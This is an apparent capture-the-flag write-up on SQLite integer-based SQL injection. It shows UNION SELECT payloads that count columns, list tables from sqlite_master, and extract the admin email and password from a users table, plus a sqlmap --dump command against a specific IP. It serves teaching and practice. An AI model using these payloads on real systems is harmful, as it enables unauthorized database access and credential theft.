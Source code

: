 
## 25 AUG 2021 |  sqlite integer  injection 


when first viist the site and press at any image it seems we have parameter id 

![image](https://user-images.githubusercontent.com/67979878/130710864-8a938c41-984f-47eb-a6a4-39d6a1d98976.png)


try some IDOR stuff but failed , however when try ' OR 1=1 --  it throws out an error 

![image](https://user-images.githubusercontent.com/67979878/130710980-f335618a-9e6e-4ee1-9fa9-73e0861abd7b.png)

this error indicates sqlite database so let's play around :) 


### [+] Great reference :

https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf


https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md



Enumeration :
---------------

first we need to know how many columns to add to the UNION statement let's test :
````
id=3 UNION SELECT 1 -- 
id=3 UNION SELECT 1 ,2-- 
id=3 UNION SELECT 1 ,2,3--
id=3 UNION SELECT 1 ,2,3,4--
id=3 UNION SELECT 1 ,2,3,4,5-- 
````

it throws error at all execpt the last one :
![image](https://user-images.githubusercontent.com/67979878/130711281-e9394b7e-0744-4bcb-869f-8898f03da187.png)

time to get table names :) 

`id=3 UNION SELECT 1 ,tbl_name ,3,4,5 FROM sqlite_master-- `

![image](https://user-images.githubusercontent.com/67979878/130711766-19608348-d673-4d86-8538-8d9f4f75ab50.png)


let's check : `nxf8_users`

`id=3 UNION SELECT 1 ,sql,3,4,5 FROM sqlite_master WHERE name='nxf8_users'--`


![image](https://user-images.githubusercontent.com/67979878/130711910-3337ccb3-e5a6-4ccd-8186-6ae4f5c02326.png)

we need to get email of admin so let's use :

`id=3  UNION SELECT 1 ,email,3,password,5 FROM nxf8_users WHERE role='admin'-- `

![image](https://user-images.githubusercontent.com/67979878/130712086-9b405882-a69c-4dff-b0b2-cee17be6ba8b.png)

email is the flag 


can also use sqlmap :

` sqlmap -u "18.192.3.151/whoisadmin/shownews.php?id=3 " --dump   `

![image](https://user-images.githubusercontent.com/67979878/130712605-e75c5b87-660b-4407-a255-54097c031deb.png)

# done 
